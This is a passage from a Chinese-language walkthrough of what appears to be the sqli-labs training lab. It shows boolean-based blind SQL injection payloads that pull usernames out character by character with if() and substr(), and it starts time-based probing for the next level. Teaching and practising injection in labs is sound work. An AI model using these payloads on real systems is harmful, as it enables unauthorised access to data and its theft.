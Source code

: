 + 我们可以大胆猜测数据该SQL语句为：

```sql
select column1, column2, column3 from users where id = '$id' limit 1,0;
```

+ 使用**and**尝试是否可以注入。

```sql
# 有返回信息
1' and 1=1 --+
# 没返回信息
1' and 1=2 --+
```

+ 这里我们使用**if()**函数和**substr()**函数进行猜数据。

```sql
# 查询第一位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='a',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='b',1,0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),1,1)='d',1,0) --+

# 查询第二位数据
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='a',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='b',1,0) --+
# 错误
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='c',1,0) --+
...
# 正确
/?id=1' and 1=if(substr((select group_concat(username) from users),2,1)='u',1,0) --+
```

## Less-9 基于时间单引号字符串

+ 首先是猜出SQL语句或者找出注入点：

```sql
# 返回：You are in...........
/?id=1

# 返回：You are in...........
/?id=0

# 返回：You are in...........
/?id=1'

# 返回：You are in...........
/?id=1' --+

# 进过多次尝试发现无论输入什么内容都是显示
# 返回：You are in...........
```
